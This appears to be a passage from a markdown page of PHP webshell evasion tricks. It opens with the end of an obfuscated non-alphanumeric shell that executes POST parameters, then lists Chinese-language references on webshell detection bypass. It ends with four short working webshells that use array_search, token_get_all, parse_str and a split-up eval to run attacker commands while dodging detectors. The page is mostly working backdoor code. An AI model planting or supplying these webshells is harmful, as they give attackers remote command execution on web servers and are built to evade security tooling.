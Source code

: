 ```php
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$____.=$__,
$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$____.=$__,
$_=$____,
$_["__"]($_["_"])]?>//$_POST["__"]($_POST["_"])
```



### Referer

[PHP动态特性的捕捉与逃逸](https://www.leavesongs.com/PENETRATION/dynamic-features-and-webshell-tricks-in-php.html)

[php-webshell-detect-bypass](https://github.com/LandGrey/webshell-detect-bypass/blob/master/docs/php-webshell-detect-bypass/php-webshell-detect-bypass.md)

[创造tips的秘籍——PHP回调后门](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)

[过D盾webshell分享](https://xz.aliyun.com/t/3959)

[Webshell入侵检测初探（一）](https://www.freebuf.com/articles/web/183520.html)

[webshell检测方法归纳](https://www.cnblogs.com/he1m4n6a/p/9245155.html)

[Smi1e  php webshell检测与绕过](https://www.smi1e.top/php-webshell检测与绕过/)

## php_webshell

```php
1:
<?php
$a = array('system' => 'a');
$b = array_search('a',$a);
$b($_GET[1]);//?1=ls
?>

2:
<?php
$tokens = token_get_all('<?php system; ?>');
$s = $tokens[1][1];
$s($_GET[1]);//?1=whoami
?>

3:
<?php
//?0=a%3Dsystem%26b%3Dwhoami
parse_str($_GET[0]);
$a($b);
?>

4:
<?php
//触发连接: http://127.0.0.1/66.php?1=phpinfo();&2=2
//原理:利用引擎对ast语法数中Expr_BinaryOp_Pow未标记污点原理
$index = $_GET[2] ** 1;
var_dump($index);
$arr = array(2=>'$_');
$hit = $arr[$index];
$payloads = 'ev'.'al'.'('.$hit.'G'.'ET'.'[1]);';
eval($payloads);
?>

```